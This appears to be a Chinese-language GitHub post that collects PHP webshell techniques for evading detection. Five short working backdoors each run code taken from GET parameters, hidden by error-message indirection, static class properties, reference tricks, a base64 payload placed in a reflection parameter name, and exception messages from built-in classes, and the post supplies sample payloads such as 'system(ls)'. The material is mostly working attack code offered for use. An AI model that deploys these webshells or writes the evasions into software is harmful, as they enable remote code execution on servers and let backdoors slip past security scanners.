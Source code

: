
如果代码中有什么错误或者描述并不准确的，可以加我的微信：qiye_hack, 与我私下交流, 感谢。

```
<?php
if($_GET[j]>2){
    $a='sys'.$_GET[i];
    $a("ls");
}else{
     echo "hello";
}
```



1. 报错方式：
```

$_GET[$_GET['aaa']];
$a= str_replace("Undefined index: ","",explode('|',error_get_last()["message"])[0]);
eval($a);
```
思路：error\_get\_last函数可以获取 上一次的错误信息，通过\$\_GET[\$\_GET['aaa']] 产生报错，通过报错信息将传入的变量进行间接传递交给eval执行。


2. 父子类数据共享：

```
<?php
	class A { static $a; }
	class B extends A {}
	A::$a = $_GET[0];
	eval(B::$a);
?>
```
思路：将传入变量的值交给父类，但是子类可以获取父类的值，从而打断污点传播。


3. unset绕过动态

```
<?php
function test(&$a){
    $a = $_GET["m"];
}
test(${$_GET["c"]});
eval($a);
?>
```

思路：

首先单独的eval($a)是不会告警的，这里通过一个双$$引用赋值间接控制$a变量，也就是必须传入特定的payload，动态才能正常的触发到恶意代码，但显然动态并没有那么智能，从而绕过了检测，payload为：c=a&m=system(ls)



4. 利用反射

```
<?php
function test($ZXZhbCgkX0dFVFsxXSk7){
}
$a = new ReflectionFunction($_GET["m"]);
eval(base64_decode($a->getParameters()[0]->name));

```

思路：
这是一个比较巧妙的反射利用，首先构造一个特殊的反射函数或者类，其中的某个名称或者变量是一个代码执行的payload，其次利用反射类ReflectionFunction获取自定义构造函数，如上例中的函数参数名称，之后再调用执行。这种绕过动态的基本原理与之前相似，也是必须要传入特定的payload才能成功触发代码执行。


5. 利用new特殊类绕过

```
<?php
try {
    new $_GET["c"]($_GET["m"]);
}catch (UnexpectedValueException $exception){
    eval(substr($exception->getMessage(),strlen('DirectoryIterator::__construct(')));
}
```

绕过原理：

```
首先测试到new $_GET["c"];并不会判断为恶意，然后我们就可以利用一些内置类进行构造，这里可以利用内置类DirectoryIterator构造报错UnexpectedValueException，然后捕获异常从而继续执行代码。
```